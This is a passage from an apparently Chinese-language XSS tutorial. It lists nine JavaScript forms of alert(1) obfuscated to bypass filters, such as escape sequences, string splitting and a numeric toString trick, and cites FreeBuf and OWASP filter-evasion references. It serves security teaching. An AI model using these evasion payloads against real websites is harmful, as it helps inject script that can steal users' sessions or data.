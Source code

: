 ## Alert混淆以绕过过滤器

```javascript
(alert)(1)
a=alert,a(1)
[1].find(alert)
top[“al”+”ert”](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
top[‘al\145rt’](1)
top[‘al\x65rt’](1)
top[8680439..toString(30)](1)
```


# 0x04 参考

> [freebuf XSS编码剖析](https://www.freebuf.com/articles/web/43285.html)
>
> [XSS的原理分析与解剖](https://www.freebuf.com/articles/44481.html)
>
> [freebuf XSS过滤绕过速查表](https://www.freebuf.com/articles/web/153055.html)
>
> [OWASP XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

